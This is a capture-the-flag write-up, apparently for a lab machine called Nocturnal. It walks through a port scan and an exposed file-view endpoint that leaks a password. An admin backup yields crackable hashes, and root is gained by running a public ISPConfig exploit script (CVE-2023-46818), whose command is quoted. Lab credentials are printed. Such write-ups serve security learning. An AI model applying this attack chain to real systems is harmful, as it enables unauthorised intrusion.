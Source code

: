  1, Port scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Page check
![](images/Pasted%20image%2020250415012323.png)Then I have try to use login and register, but seems there is dashboard here, and we can upload a file from that.
![](images/Pasted%20image%2020250415012604.png)
![](images/Pasted%20image%2020250415023835.png)
After upload a pdf file, we can press that name to check the file
`http://nocturnal.htb/view.php?username=wither&file=test.pdf`
![](images/Pasted%20image%2020250415024310.png)
In this place, we can try to ffuf the web-content to check is there anything else here.
We can get a interesting file here
`nocturnal.htb/view.php?username=amanda&file=privacy.odt`
And there are something interesting here
```
Dear Amanda,
Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.
The file has been created and provided by Nocturnal's IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us.
Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.

Yours sincerely,
Nocturnal's IT team
```

Then we get the valid credit `amanda:arHkG7HAI68X8s1J`
And after login with this credit, we can access into something new
![](images/Pasted%20image%2020250415024856.png)
Then we finally access into the admin page
![](images/Pasted%20image%2020250415025020.png)
Then we can also backup the system and download it
![](images/Pasted%20image%2020250415025302.png)
We can also check the source code of these services.
From the backup, we can find a database file here `nocturnal_database.db`
![](images/Pasted%20image%2020250415025912.png)
We can find a few hashes here, and only the password of `tobias` could be cracked
`tobias:slowmotionapocalypse`
And we can use the ssh to login and get the user shell.

2, shell as root
Firstly, I would check the `sudo -l`
```
tobias@nocturnal:~$ sudo -l
[sudo] password for tobias: 
Sorry, user tobias may not run sudo on nocturnal.
```
Then I would continue to check the valid port and services
```
tobias@nocturnal:~$ netstat -ntlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:587           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      - 
```
There is a port 8080 seems like be our targets
Let's port forwarding to our local machine, then we can check this service
![](images/Pasted%20image%2020250415134504.png)
By searching the exploits of `ispconfig`
we can find something interesting here `ISPConfig - PHP Code Injection (CVE-2023-46818)`
Then we can also find the exploits script here
`https://github.com/bipbopbup/CVE-2023-46818-python-exploit.git`
Then we can run the script 
`python3 exploit.py http://localhost:8080 admin slowmotionapocalypse`

Finally we can get the root shell.
